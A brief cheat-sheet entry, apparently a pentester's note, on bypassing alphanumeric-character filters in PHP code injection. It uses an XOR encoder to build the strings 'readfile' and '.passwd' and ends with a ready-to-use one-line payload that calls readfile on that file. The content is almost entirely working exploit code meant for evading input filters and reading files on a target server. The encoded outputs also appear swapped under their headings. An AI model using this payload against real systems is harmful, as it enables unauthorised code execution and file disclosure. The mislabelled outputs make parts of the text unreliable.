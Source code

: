 #code_injection #php 

## Filter Alphanumeric Chars
https://github.com/mucomplex/PHP_alphanumeric_encoder 

Encode `readfile`:
```php
python3 alpha_exploit.py readfile xor "\`\\&"
→".".('0'^'@').(':'^'[').('@'^'3').('['^'(').('['^',').('['^'?');
```

Encode `.passwd`:
```php
python3 alpha_exploit.py .passwd xor "\`\\&"
→('2'^'@').('8'^']').('!'^'@').('$'^'@').(';'^']').('@'^')').('@'^',').('['^'>');
$__($_);
```

Final payload:
```php
$_=".".('0'^'@').(':'^'[').('@'^'3').('['^'(').('['^',').('['^'?');$__=('2'^'@').('8'^']').('!'^'@').('$'^'@').(';'^']').('@'^')').('@'^',').('['^'>');$__($_);

```